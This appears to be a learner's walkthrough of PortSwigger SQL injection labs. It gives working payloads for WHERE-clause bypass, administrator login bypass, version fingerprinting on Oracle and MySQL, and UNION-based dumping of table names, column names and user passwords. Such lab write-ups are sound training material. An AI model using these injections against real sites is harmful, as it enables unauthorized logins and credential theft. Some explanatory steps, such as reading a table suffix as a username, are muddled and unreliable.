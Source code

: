 https://portswigger.net/web-security/all-labs#sql-injection

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 

Step-1 : Acccess the Lab
Step-2 : When the lab page opes it shows different shopping options
Step-3 : In our question it says the hidden data with WHERE clause
Step-4 : Analysis the Where clause with changing the value on the URl
         For Example, 
```URL 
https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category=Pets

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category=''

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='--

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='1=1--

https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='or 1=1 --

```

Step-5 : In this link we get some shopping options which are hidden 
```url
 https://0a6f00a603c0f4cf80b2c17c00be00ea.web-security-academy.net/filter?category='or 1=1 -- 

```
Step-6 : When we find the hidden data then our will finishes.

# Lab: SQL injection vulnerability allowing login bypass

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. 

Step-1 : Access the lab (Same for all labs)
Step-2 : open My Account to login
Step-3 : Analysis 
         SELECT name FROM users WHERE Username='administrator' 
         
(Because in the question there ia hit "logs in to the application as the administrator user")

Password can be anything 'cause we are ignoring it..

now do the analysis based on the Username like

            Username=administrator'
            Username=administrator''
                 ..   ..   
                 ..   ..  
                 ..   ..  
                 ..   ..  
            Username=administrator'--

Step-4 : In the " Username=administrator'-- " we will the successful login.


# Lab: SQL injection attack, querying the database type and version on Oracle

 This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

Step-1 : Access the lab 
Step-2 : Open the Burp Browser and copy the link of the lab paste it in the browser
Step-3 : On the interceptor then click on the Lifestyle on the Browser
Step-4 : Now we will the response in the Burp Suite send that to the repeator
Step-5 : In the very 1st line keep this content type this ..

```https
GET /filter?category=Lifestyle+'UNION+SELECT+BANNER,NULL+FROM+v$version-- HTTP/2
```
Then send the request and observe the chenges, there you see that the lab is solved.

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. 

Step-1 : Access the lab and open the BurpSuite
Step-2 : Open the lab link in Burp Browser
Step-3 : On the Intercept
Step-4 : Get the data and send to repeator
Step-5 : In the very 1st line keep this content type this ..

```https
GET /filter?category=Gifts'UNION+SELECT+@@version,+NULL# HTTP/2
```
Then send the request and observe the chenges, there you see that the lab is solved.


# Lab: SQL injection attack, listing the database contents on non-Oracle databases

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user. 

Step-1 : Access the lab and open the BurpSuite
Step-2 : Open the lab link in Burp Browser
Step-3 : On the Intercept
Step-4 : Get the data and send to repeator
Step-5 : In the very 1st line keep this content type this ..

```https
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
Step-6 : Send the request you will get the information based on the tables in the html format
Step-7 : Check for user_name in the information. Our username wiil be like " users_edupci "
         Hence, the username is " edupci "
Step-8 : Now we need to get the password. So, type..

```https
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_edupci'--
```

Step-9 : When we send the request we will get the information there we can see the new User_name and password.
            
            username_bauhrs
            password_woqpwf
Step-10 : When you got the password and the username then we need to enter the below content

```http
'+UNION+SELECT+password_woqpwf,+username_bauhrs+FROM+users_edupci--
```

Step-11 : Now send the request we will get the response. In that response we can see the password and the username to login to the account or to complete the lab
         The Username = administrator
         The password = ydjg5c79qc4t797yihrq

Step-13 : Well will successfully completed the lab.

